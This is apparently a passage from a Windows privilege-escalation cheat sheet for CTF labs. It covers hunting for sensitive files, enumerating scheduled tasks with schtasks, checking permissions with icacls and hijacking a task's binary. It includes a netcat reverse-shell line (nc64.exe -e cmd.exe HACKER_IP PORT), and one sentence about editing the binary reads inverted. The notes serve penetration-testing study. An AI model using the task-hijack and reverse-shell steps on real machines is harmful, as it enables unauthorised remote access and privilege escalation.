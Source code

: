 <hr class="sep-both">

## Look for (sensitive?) information 🔑

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ Check the root folder

* ➡️ Check users desktop/documents
</div><div>

* ➡️ Check `%appdata%`
</div></div>

<hr class="sep-both">

## Exploit scheduled tasks

<div class="row row-cols-md-2"><div>

List scheduled tasks

```powershell
PS> schtasks
```

Then, you can query more info on a task (ex: `example_task`) with

```powershell
PS> schtasks /query /tn example_task /fo list /v
```

</div><div>

The **Task To Run** is the most important. If you can inject or edit the binary, then you must find another task. The **Run As User** will help when considering a task over another.

```powershell
# check permissions
PS> icacls task_to_run
# ex: replace the binary
CMD> echo %temp%\nc64.exe -e cmd.exe HACKER_IP PORT > task_to_run
```

In CTF, instead of waiting, you may be able to start the task manually.

```powershell
PS> schtasks /run /tn taskname
```
</div></div>

<hr class="sep-both">

## Windows Services

[![steelmountain](../../_badges/thmp-p/steelmountain.svg)](https://tryhackme.com/room/steelmountain)
